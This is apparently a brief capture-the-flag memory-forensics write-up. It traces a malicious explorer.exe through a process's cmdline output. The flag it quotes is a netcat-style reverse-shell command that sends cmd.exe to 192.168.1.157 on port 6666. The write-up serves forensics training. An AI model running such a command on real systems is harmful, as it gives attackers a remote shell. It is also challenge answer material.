


# Commands

[Zip File](../../assets/forensics/mem.raw) 
Please before look to [Captured Memories](Forensics/Captured%20Memories/index.md)
From [cmdline output](../../assets/forensics/cmdline.txt) we can easily  see 
process `3100` use process `5448`'s  malicious explorer.exe.

Flag: `flag{explorer.exe  192.168.1.157 6666 -e cmd.exe}` 